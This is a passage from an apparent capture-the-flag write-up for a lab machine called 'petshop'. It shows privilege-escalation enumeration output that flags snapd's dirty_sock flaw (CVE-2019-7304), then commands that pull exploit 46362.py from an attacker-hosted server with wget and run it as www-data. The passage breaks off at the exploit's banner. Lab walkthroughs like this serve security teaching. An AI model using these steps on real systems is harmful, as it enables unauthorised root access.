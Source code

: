 ```
[+] HTTP sockets
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sockets
Socket /run/snapd.socket owned by root uses HTTP. Response to /index:
{"type":"sync","status-code":200,"status":"OK","result":["TBD"]}
Socket /run/snapd-snap.socket owned by root uses HTTP. Response to /index:
{"type":"error","status-code":401,"status":"Unauthorized","result":{"message":"access denied","kind":"login-required"}}

```

```
[+] Active Ports
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-ports
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -  
```

```
[+] SUID - Check easy privesc, exploits and write perms
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
-rwsr-sr-x 1 root   root        99K Apr 16  2018 /usr/lib/snapd/snap-confine  --->  Ubuntu_snapd<2.37_dirty_sock_Local_Privilege_Escalation(CVE-2019-7304)
```

Well, a lot of `snapd` activity in the output. By checking the version of the `snapd` we get it is indeed the vulnerable one.

[Back to top](#contents) ⤴

# Privilege Escalation

> Read more about how the dirty_sock works on the [author page](https://shenaniganslabs.io/2019/02/13/Dirty-Sock.html)

Download locally the `*.py` script and expose it via the `http.server`.

```
$ searchsploit -m linux/local/46362.py
```

On the target machine:

```
www-data@petshop:/var/www/monitorr$ wget XX.XX.XX.XXX/46362.py
wget XX.XX.XX.XXX/46362.py
--2021-05-05 20:50:32--  http://XX.XX.XX.XXX/46362.py
Connecting to XX.XX.XX.XXX:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 13831 (14K) [text/plain]
Saving to: '46362.py'

46362.py            100%[===================>]  13.51K  --.-KB/s    in 0.05s   

2021-05-05 20:50:32 (294 KB/s) - '46362.py' saved [13831/13831]

www-data@petshop:/var/www/monitorr$ python3 ./46362.py
python3 ./46362.py

      ___  _ ____ ___ _   _     ____ ____ ____ _  _ 
      |  \ | |__/  |   \_/      [__  |  | |    |_/  
      |__/ | |  \  |    |   ___ ___] |__| |___ | \_ 
                       (version 2)

//=========[]==========================================\\
|| R&D     || initstring (@init_string)                ||
|| Source  || https://github.com/initstring/dirty_sock ||
```